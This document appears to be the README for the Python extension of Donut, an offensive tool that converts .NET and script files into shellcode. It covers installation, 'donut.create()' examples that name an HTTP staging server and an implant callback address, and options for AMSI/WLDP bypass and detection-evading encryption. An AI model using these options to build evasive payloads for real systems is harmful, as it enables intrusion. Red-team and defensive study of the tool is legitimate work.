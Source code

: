 # Python Extension

A Python C extension is now available which allows you to dynamically generate donut shellcode in Python.

## Requirements

The extension has only been tested in Python 3.7, it shouldn't have any compatibility issues with older 3.X versions of Python.

It will ***not*** work in Python 2.x.

## Installing the Extension

(Once the extension has been published to PyPi)
```
pip3 install donut-shellcode
```

## Manually Compiling And Installing the Extension

```bash
git clone https://github.com/TheWover/donut && cd donut
pip3 install . # or python setup.py install
```

## Usage

The Python extension accepts the same parameters as the main donut executable.

Here's a minimalistic example of using the extension:

```python
import donut
shellcode = donut.create(file="naga.exe", params='https://172.16.164.1/')
```

The ```donut``` module exposes only one function ```create()```, which is used to generate shellcode and accepts both positional and keyword arguments.

The only required parameter the ```create()``` function needs is the ```file``` argument which accepts a path to the .NET EXE/DLL or VBS/JS file to turn into shellcode.

```python
import donut

shellcode = donut.create(
    file='naga.exe',         # .NET assembly, EXE, DLL, VBS, JS or XSL file to execute in-memory
    url='http://127.0.0.1',  # HTTP server that will host the donut module
    arch=1,                  # Target architecture : 1=x86, 2=amd64, 3=x86+amd64(default)
    bypass=3,                # Bypass AMSI/WLDP : 1=none, 2=abort on fail, 3=continue on fail.(default)
    cls='namespace.class',   # Optional class name.  (required for .NET DLL)
    method='method',         # Optional method or API name for DLL. (method is required for .NET DLL)
    params='arg1 arg2',      # Optional parameters or command line.
    runtime='version',       # CLR runtime version. MetaHeader used by default or v4.0.30319 if none available
    appdomain='name'         # AppDomain name to create for .NET. Randomly generated by default.
)
```

## Keywords

The following table lists key words for the create method.

<table>
  <tr>
    <th>Keyword</th>
    <th>Type</th>
    <th>Description</th>
  </tr>
  <tr>
    <td>file</td>
    <td>String</td>
    <td>The path of file to execute in memory. VBS/JS/EXE/DLL files are supported.</td>
  </tr>
  <tr>
    <td>arch</td>
    <td>Integer</td>
    <td>Indicates the type of assembly code to generate. 1=<code>DONUT_ARCH_X86</code> and 2=<code>DONUT_ARCH_X64</code> are self-explanatory. 3=<code>DONUT_ARCH_X84</code> indicates dual-mode that combines shellcode for both X86 and AMD64. ARM64 will be supported at some point.</td>
  </tr>
  <tr>
    <td>bypass</td>
    <td>Integer</td>
    <td>Specifies behaviour of the code responsible for bypassing AMSI and WLDP. The current options are 1=<code>DONUT_BYPASS_NONE</code> which indicates that no attempt be made to disable AMSI or WLDP. 2=<code>DONUT_BYPASS_ABORT</code> indicates that failure to disable should result in aborting execution of the module. 3=<code>DONUT_BYPASS_CONTINUE</code> indicates that even if AMSI/WDLP bypasses fail, the shellcode will continue with execution.</td>
  </tr>
  <tr>
    <td>compress</td>
    <td>Integer</td>
    <td>Indicates if the input file should be compressed. Available engines are 1=<code>DONUT_COMPRESS_NONE</code>, 2=<code>DONUT_COMPRESS_APLIB</code> to use the <a href="http://ibsensoftware.com/products_aPLib.html">aPLib</a> algorithm. For builds on Windows, the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcompressbuffer">RtlCompressBuffer</a> API is available and supports 3=<code>DONUT_COMPRESS_LZNT1</code>, 4=<code>DONUT_COMPRESS_XPRESS</code> and 5=<code>DONUT_COMPRESS_XPRESS_HUFF</code>.</td>
  </tr>
  <tr>
    <td>entropy</td>
    <td>Integer</td>
    <td>Indicates whether Donut should use entropy and/or encryption for the loader to help evade detection. Available options are 1=<code>DONUT_ENTROPY_NONE</code>, 2=<code>DONUT_ENTROPY_RANDOM</code>, which generates random strings and 3=<code>DONUT_ENTROPY_DEFAULT</code> that combines <code>DONUT_ENTROPY_RANDOM</code> with symmetric encryption.</td>
  </tr>
  <tr>
    <td>format</td>
    <td>Integer</td>
    <td>Specifies the output format for the shellcode loader. Supported formats are 1=<code>DONUT_FORMAT_BINARY</code>, 2=<code>DONUT_FORMAT_BASE64</code>, 3=<code>DONUT_FORMAT_RUBY</code>, 4=<code>DONUT_FORMAT_C</code>, 5=<code>DONUT_FORMAT_PYTHON</code>, 6=<code>DONUT_FORMAT_POWERSHELL</code>, 7=<code>DONUT_FORMAT_CSHARP</code> and 8=<code>DONUT_FORMAT_HEX</code>. On Windows, the base64 string is copied to the clipboard.</td>
  </tr>
  <tr>
    <td>exit_opt</td>
    <td>Integer</td>
    <td>When the shellcode ends, <code>RtlExitUserThread</code> is called, which is the default behaviour. Use 2=<code>DONUT_OPT_EXIT_PROCESS</code> to terminate the host process via the <code>RtlExitUserProcess</code> API.</td>
  </tr>
  <tr>
    <td>thread</td>
    <td>Integer</td>
    <td>If the file is an unmanaged EXE, the loader will run the entrypoint as a thread. The loader also attempts to intercept calls to exit-related API stored in the Import Address Table by replacing those pointers with the address of the <code>RtlExitUserThread</code> API. However, hooking via IAT is generally unreliable and Donut may use code splicing / hooking in the future.</td>
  </tr>
  <tr>
    <td>oep</td>
    <td>String</td>
    <td>Tells the loader to create a new thread before continuing execution at the OEP provided by the user. Address should be in hexadecimal format.</td>
  </tr>
  <tr>
    <td>output</td>
    <td>String</td>
    <td>The path of where to save the shellcode/loader. Default is "loader.bin".</td>
  </tr>
  <tr>
    <td>runtime</td>
    <td>String</td>
    <td>The CLR runtime version to use for a .NET assembly. If none is provided, Donut will try reading from the PE's COM directory. If that fails, v4.0.30319 is used by default.</td>
  </tr>
  <tr>
    <td>appdomain</td>
    <td>String</td>
    <td>AppDomain name to create. If one is not specified by the caller, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
  <tr>
    <td>cls</td>
    <td>String</td>
    <td>The class name with method to invoke. A namespace is optional. e.g: <var>namespace.class</td>
  </tr>
  <tr>
    <td>method</td>
    <td>String</td>
    <td>The method that will be invoked by the shellcode once a .NET assembly is loaded into memory. This also holds the name of an exported API if the module is an unmanaged DLL.</td>
  </tr>
  <tr>
    <td>params</td>
    <td>String</td>
    <td>List of parameters for the .NET method or DLL function. For unmanaged EXE files, a 4-byte string is generated randomly to act as the module name. If entropy is disabled, this will be "AAAA"</td>
  </tr>
  <tr>
    <td>unicode</td>
    <td>Integer</td>
    <td>By default, the <code>params</code> string is passed to an unmanaged DLL function as-is, in ANSI format. If set, param is converted to UNICODE.</td>
  </tr>
  <tr>
    <td>url or server</td>
    <td>String</td>
    <td>If the instance type is <code>DONUT_INSTANCE_HTTP</code>, this should contain the server and path of where module will be stored. e.g: https://www.staging-server.com/modules/</td>
  </tr>
  <tr>
    <td>modname</td>
    <td>String</td>
    <td>If the type is <code>DONUT_INSTANCE_HTTP</code>, this will contain the name of the module for where to save the contents of <code>mod</code> to disk. If none is provided by the user, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
</table>

## Author

The Python extension was written by [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)

